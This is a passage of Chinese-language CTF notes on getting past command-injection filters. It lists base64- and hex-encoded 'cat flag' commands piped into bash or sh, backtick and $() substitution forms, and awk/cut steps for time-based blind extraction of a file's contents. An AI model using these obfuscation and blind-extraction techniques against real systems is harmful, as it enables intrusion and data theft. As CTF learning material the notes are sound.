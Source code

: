 echo Y2F0IGZsYWcK | base64 -d | /bin/bash

echo Y2F0IGZsYWcK | base64 -d | bash

echo Y2F0IGZsYWcK | base64 -d | sh

\`echo Y2F0IGZsYWcK | base64 -d `     ``表示执行

$(echo Y2F0IGZsYWcK | base64 -d)

## 2.base32

将上述编码换位base32

## 3.HEX编码

echo 63617420666c61672e706870| xxd -r -p | /bin/bash

echo 63617420666c61672e706870| xxd -r -p| bash

echo 63617420666c61672e706870| xxd -r -p | sh

\`echo 63617420666c61672e706870| xxd -r -p `     ``表示执行

$(echo 63617420666c61672e706870| xxd -r -p)

## 4.shellcode

echo \x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70

print \x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70

# 7.无回显时间盲注

## 基本命令执行

sleep 

cat awk NR awk逐行获取数据

```shell
#cat flag.php
hello
benben
#cat flag.php | awk NR==1
hello
#cat awk NR==2
benben
```

cut -c cut命令逐列获取单个字符

```shell
#cat flag.php
hello
benben
#cat flag.php | awk NR==1 | cut -c 1
h
#cat flag.php | awk NR==1 | cut -c 3
l
```
